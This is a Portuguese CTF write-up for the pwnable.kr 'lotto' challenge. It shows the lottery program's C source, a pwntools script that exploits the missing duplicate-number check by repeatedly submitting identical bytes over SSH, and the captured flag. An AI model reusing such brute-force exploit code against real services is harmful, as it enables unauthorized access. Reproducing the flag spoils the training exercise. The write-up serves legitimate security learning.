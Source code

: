 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Operating logic]

## Sobre o Desafio  

Mamãe! Fiz um programa de loteria para meu dever de casa.
você quer jogar?

ssh lotto@pwnable.kr -p2222 (pw:guest)

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php#)

## Solução

![image](https://github.com/user-attachments/assets/afd67885-fbed-4b0d-92bf-46c9e5cc03a9)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

```python
from pwn import *

sh = ssh('lotto', '128.61.240.205', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
    p.recv()
    p.sendline(b'1')  # Corrigido para bytes
    p.recv()
    p.sendline(b'------')  # Corrigido para bytes
    _, ans = p.recvlines(2)
    
    if b"bad" not in ans:  # Comparação correta
        print(ans.decode())  # Decodificar para exibir corretamente
        break
```

![image](https://github.com/user-attachments/assets/dd178db0-a2e6-4e21-9d64-56ed4e3e150f)

> Assim, obtemos a flag `sorry mom... I FORGOT to check duplicate numbers... :(`

